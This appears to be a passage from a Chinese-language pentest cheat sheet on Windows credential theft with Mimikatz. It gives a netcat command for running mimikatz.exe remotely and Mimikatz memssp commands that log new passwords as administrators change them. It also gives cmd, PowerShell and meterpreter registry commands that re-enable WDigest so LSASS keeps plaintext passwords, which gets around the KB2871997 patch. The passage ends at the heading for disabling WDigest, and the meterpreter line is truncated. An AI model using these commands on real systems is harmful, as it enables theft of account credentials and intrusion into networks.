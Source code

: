 通过 nc 远程执行
```shell
# Victim 执行
nc -lvp 443

# Attacker 执行
nc.exe -vv 192.168.1.2 443 -e mimikatz.exe
# 192.168.1.2 为 Victim IP
```

若管理员有每过几天就改密码的习惯,但是 mimikatz 抓取到的密码都是老密码,用 QuarksPwDump 等抓的 hash 也是老 hash,新密码却抓不到的情况下
```
privilege::debug
misc::memssp
```
记录的结果在 `c:/windows/system32/mimilsa.log`

---

# 无法抓取 windows 明文密码的解决方法

在 KB2871997 之前， Mimikatz 可以直接抓取明文密码。

微软在 win7 之后就打了补丁 kb2871997，当服务器安装 KB2871997 补丁后，系统默认禁用 Wdigest Auth ，内存（lsass 进程）不再保存明文口令。Mimikatz 将读不到密码明文。

但由于一些系统服务需要用到 Wdigest Auth，所以该选项是可以手动开启的。（开启后，需要用户重新登录才能生效）

以下是支持的系统:
- Windows 7
- Windows 8
- Windows 8.1
- Windows Server 2008
- Windows Server 2012
- Windows Server 2012R 2

**开启 Wdigest Auth**
- cmd
    ```
    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
    ```

- powershell
    ```
    Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1
    ```

- meterpreter
    ```
    reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogon
    ```

**关闭 Wdigest Auth**
